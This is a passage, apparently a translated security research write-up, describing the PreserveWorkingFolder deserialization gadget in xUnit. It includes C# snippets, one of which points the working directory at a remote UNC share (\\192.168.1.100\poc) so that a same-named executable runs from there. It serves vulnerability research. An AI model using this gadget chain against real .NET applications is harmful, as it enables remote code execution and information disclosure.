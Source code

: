 代码段 49 PreserverWorkingFolder gadget

描述：

在深入了解小工具的详细信息之前，让我们关注一下`Directory.SetCurrentDirectory` 方法。这个 `.NET Framework` 方法导致了 Windows 的 `winbase!SetCurrentDirectory18` 调用。简而言之，它允许我们为进程设置当前目录。参考以下代码片段：

```bash
File.WriteAllText("test.txt", "test"); // Writes to  
C:\inetpub\wwwroot\applicationdir\test.txt 
Directory.SetCurrentDirectory("C:\\Users\\Public\\"); // Change dir to  
C:\Users\Public 
File.WriteAllText("test.txt", "test"); // Writes to C:\Users\Public\test.txt 
Directory.SetCurrentDirectory(origDir); 
Process.Start("tracert.exe", "8.8.8.8"); // run C:\Windows\System32\tracert.exe 

Directory.SetCurrentDirectory("\\\\192.168.1.100\\poc\\"); // Change dir to  
\\192.168.1.100\poc 
Process.Start("tracert.exe", "8.8.8.8"); // run \\192.168.1.100\poc\tracert.exe,  
may be blocked by various policies
```

代码段 50 Testing Directory.SetCurrentDirectory 方法

可以看到，当攻击者可以更改应用程序的目录时，他可以在执行基于相对路径的文件操作时将应用程序指向不同的位置。在更大的应用程序中，可以找到将其转化为远程代码执行（RCE）、信息泄露等的创造性方法。

`PreserveWorkingFolder` 小工具允许我们通过反序列化实现 `Directory.SetCurrentDirectory` 的调用。让我们验证它的唯一构造函数。

```bash
public PreserveWorkingFolder(IAssemblyInfo assemblyInfo) 
{ 
    this.originalWorkingFolder = Directory.GetCurrentDirectory(); 
    if (!string.IsNullOrEmpty(assemblyInfo.AssemblyPath)) 
    { 

Directory.SetCurrentDirectory(Path.GetDirectoryName(assemblyInfo.AssemblyPath)); 
// [1] 
    } 
}
```

代码段 51 PreserveWorkingFolder constructor

在 \[1\] 处，我们进入了 `Directory.SetCurrentDirectory`，其中输入等于 `assemblyInfo.AssemblyPath`。`assemblyInfo` 对象作为构造函数的参数提供，并且它必须实现 `Xunit.Abstractions.IAssemblyInfo` 接口。在这里，我们可以使用 `Xunit.Xunit1AssemblyInfo` 类：

```bash
public class Xunit1AssemblyInfo : IAssemblyInfo 
{ 
    public Xunit1AssemblyInfo(string assemblyFileName) 
    { 
        this.AssemblyFileName = assemblyFileName; // [1] 
    } 

    string IAssemblyInfo.AssemblyPath // [2] 
    { 
        get 
        { 
            return this.AssemblyFileName; 
        } 
    } 
    ... 
}
```

